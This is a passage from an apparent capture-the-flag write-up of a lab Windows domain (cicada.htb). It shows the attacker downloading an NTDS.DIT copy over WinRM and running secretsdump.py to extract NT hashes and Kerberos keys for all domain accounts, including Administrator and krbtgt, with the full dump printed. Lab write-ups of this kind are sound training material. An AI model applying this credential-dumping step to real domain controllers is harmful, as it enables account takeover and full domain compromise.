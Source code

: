 ```bash
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           42,908,480 Bytes/sec.
   Speed :            2,455.243 MegaBytes/min.
   Ended : Saturday, May 31, 2025 7:08:15 PM

```

<br />

We download this file using WinRM.

<br />

### Extract Hashes:

<br />

We run `secretsdump.py` again, but this time using the `-ntds` flag instead of `-sam`, to extract domain hashes from the Active Directory database:

<br />

```bash
❯ secretsdump.py local -system SYSTEM -ntds NTDS.DIT
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from NTDS.DIT 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
[*] Kerberos keys from NTDS.DIT 
Administrator:aes256-cts-hmac-sha1-96:e47fd7646fa8cf1836a79166f5775405834e2c060322d229bc93f26fb67d2be5
Administrator:aes128-cts-hmac-sha1-96:f51b243b116894bea389709127df1652
Administrator:des-cbc-md5:c8838c9b10c43b23
CICADA-DC$:aes256-cts-hmac-sha1-96:e9752f2c7752bd92142588e63dc0383499f49b04a46de37845e33d40de1db7ed
CICADA-DC$:aes128-cts-hmac-sha1-96:7fc8e7f2daa14d0ccdf070de9cfc49c5
CICADA-DC$:des-cbc-md5:b0f7cdec040d5b6d
krbtgt:aes256-cts-hmac-sha1-96:357f15dd4d315af47ac63658c444526ec0186f066ad9efb46906a7308b7c60c8
krbtgt:aes128-cts-hmac-sha1-96:39cbc0f220550c51fb89046ac652849e
krbtgt:des-cbc-md5:73b6c419b3b9bf7c
cicada.htb\john.smoulder:aes256-cts-hmac-sha1-96:57ae6faf294b7e6fbd0ce5121ac413d529ae5355535e20739a19b6fd2a204128
cicada.htb\john.smoulder:aes128-cts-hmac-sha1-96:8c0add65bd3c9ad2d1f458a719cfda81
cicada.htb\john.smoulder:des-cbc-md5:f1feaeb594b08575
cicada.htb\sarah.dantelia:aes256-cts-hmac-sha1-96:e25f0b9181f532a85310ba6093f24c1f2f10ee857a97fe18d716ec713fc47060
cicada.htb\sarah.dantelia:aes128-cts-hmac-sha1-96:2ac9a92bca49147a0530e5ce84ceee7d
cicada.htb\sarah.dantelia:des-cbc-md5:0b5b014370fdab67
cicada.htb\michael.wrightson:aes256-cts-hmac-sha1-96:d89ff79cc85032f27499425d47d3421df678eace01ce589eb128a6ffa0216f46
cicada.htb\michael.wrightson:aes128-cts-hmac-sha1-96:f1290a5c4e9d4ef2cd7ad470600124a9
```